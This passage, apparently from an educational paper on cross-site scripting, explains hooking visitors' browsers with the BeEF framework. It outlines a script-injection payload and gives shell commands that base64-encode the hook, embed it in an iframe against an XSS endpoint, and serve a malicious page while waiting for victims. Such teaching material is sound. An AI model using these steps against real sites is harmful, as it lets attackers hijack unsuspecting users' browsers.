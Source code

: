 When you connect to the user interface, you have access to a list of all the browsers that are or have been $hooked$. To thoses who are currently, you can send $commands$, presented to you by BeEF amongst a huge list of attacks and exploits that you could want to launch.

Detailling all the exploits, and even just their categories, would be very long and thus is out of the scope of this paper.

alternative : xenotix[7]
    
###Add a BeEF hook to our page :
Craft a payload to load the hook. This is a really simple and straight-forward javascript code[Appendix-7] :

    Create a $<script>$ element.
    Set its $url$ attribute to our $hook.js$.
    (optional) Set its $type$ attribute.
    Append it to the head of the document.

turn it into an exploit :

    base64 -w0 add-hook.js > add-hook.b64

    echo "<iframe src='http://localhost:8080/xss/$(cat payloads/add-hook.b64)'></iframe>" > malicious-website/add-hook.html
    cd malicious-website && python3 -m http.server 1337

Start the BeEF server, connect to it using the web interface, and wait for a visitor..

![BeEF : ui](https://raw.githubusercontent.com/centime/xss-paper/master/screenshots/beef-1.png)
